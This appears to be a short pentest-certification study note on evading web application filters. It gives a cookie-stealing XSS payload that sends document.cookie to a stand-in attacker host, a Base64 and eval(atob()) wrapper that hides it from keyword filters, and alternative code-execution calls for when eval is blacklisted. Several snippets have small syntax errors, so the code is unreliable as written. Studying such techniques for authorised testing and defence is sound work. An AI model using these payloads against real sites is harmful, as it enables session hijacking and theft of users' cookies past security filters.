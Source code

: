 ```yaml
---
title: "2 - Evasion Basics"
classes: single
header:  
  teaser: /assets/images/posts/ewptx/ewptx-teaser3.jpg
  overlay_image: /assets/images/main/header4.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Some basic techniques for evasion in WEB APP scenario"
description: "Base64 encoding, obfuscations, compressing, escapes and More"
categories:
  - notes
  - ewptx
tags:
  - advanced
  - pentest
  - web
  - bypass
toc: true
---
```


## Base64 Encoding Evasion
- Lets suppose that we want to evade a system that inspects Javascript code For specific keywords like eval, alert, prompt, document.cookie, or other potential malicious strings.
- A possible way to escapse these kinds of filters is by using Base64 encoding.

### Cookie Stealer
To steal cookies, not marked as HttpOnly is relatively easy and we commonly use this JavaScript payload:
```js
location.href = 'http://evilpath;com/?c='+escape(document.cookie)''
```

- however often the document.cookie keyword may be detected and blocked

Use Base64 encoding, we can hide document.cookie code translating the attack vector into:
```js
eval(atob(bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGg7Y29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=))
```

- perhaps the eval function is blacklisted too, so lets see alternatives:

in Javascript:
```js
[].constructor.constructor("code")() //where code equals 'atob(<base64 script>)'
```

Other valid methods are:
```js
setTimeout("code") #all browsers
setInterval("code") #all browsers
setImmediate("code")#IE10+
Function("code)"() #all browsers
```
